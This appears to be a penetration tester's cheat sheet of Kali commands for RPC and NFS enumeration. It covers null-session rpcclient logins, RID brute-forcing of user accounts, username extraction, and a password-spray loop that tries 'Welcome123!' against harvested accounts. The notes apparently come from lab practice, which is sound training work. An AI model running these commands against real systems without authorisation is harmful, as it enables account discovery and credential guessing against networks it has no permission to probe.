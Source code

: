 #### showmount
```bash - kali
showmount -e $TARGET
```
#### Null user enumeration
```bash - kali
rpcclient -U "" -N $TARGET
```
```bash - kali
rpcclient -p 135 -U "" $TARGET
```
```bash - kali
rpcclient -W '' -c querydispinfo -U''%'' '$TARGET'
```
#### rpcmap
```bash - kali
rpcmap.py 'ncacn_ip_tcp:$TARGET' | grep A2 'DCOM'
```
```bash - kali
rpcmap.py 'ncacn_ip_tcp:$TARGET' -brute-opnums -auth-level 1 -opnum-max 5
```
See [[APT.pdf]] for further steps.
#### rpcclient Enumeration
[[Spray]]
```bash - kali
rpcclient -U $USER $TARGET
```

```bash - kali
rpcclient -U "" $TARGET
```

```bash - kali
help
```

```bash - kali
srvinfo
```

```bash - kali
enumdomains
```

```bash - kali
enumdomusers
```

```bash - kali
querydominfo
```

```bash - kali
netshareenumall
```

#### Rpcclient - User & Group  Enumeration
```bash - kali
enumdomusers
```

```bash - kali
queryuser $rid_value
```

Example: 
```bash - kali
pcclient $> enumdomusers
user:[admin] rid:[0x9e8]

rpcclient $> queryuser 0x9e8

```

The ```queryuser ``` command can yield a group's RID information to get this info run:
```bash - kali
querygroup $rid_value
```

Brute Forcing User RIDs
```
for i in $(seq 500 1100);do rpcclient -N -U "" $TARGET -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```

##### Creating a list of valid usernames retrieved from RPC
```bash - kali
cat users.txt | awk -F\[ '{print $2}' | awk -F \] '{print $1}' > valid_users.txt
```
#### rpcclient.sh
```bash - kali
for u in $(cat users | awk -F@ '{print $1}' | awk -F: '{print $2}');
do
	rpcclient -U "$u%Welcome123!" -c "getusername;quit" $TARGET | grep Authority;
done
```
`Account Name: melanie, Authority Name: MEGABANK`
```bash - kali
impacket-rpcdump
```
